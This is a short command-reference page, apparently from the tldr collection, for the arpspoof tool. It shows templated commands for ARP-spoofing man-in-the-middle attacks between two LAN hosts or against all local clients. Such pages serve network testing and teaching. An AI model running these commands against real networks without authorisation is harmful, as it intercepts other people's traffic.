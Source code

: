 # arpspoof

> Intercept packets on a switched LAN.
> Redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies.
> More information: <https://manned.org/arpspoof>.

- Make a simple man-in-the-middle attack between two local hosts (run both at the same time, via `screen` or multiple terminal sessions):

`sudo arpspoof -i {{eth0}} -t {{192.168.0.1}} {{192.168.0.2}}`
`sudo arpspoof -i {{eth0}} -t {{192.168.0.2}} {{192.168.0.1}}`

- Make a simple man-in-the-middle attack for all local clients:

`sudo arpspoof -i {{eth0}} {{192.168.0.1}}`
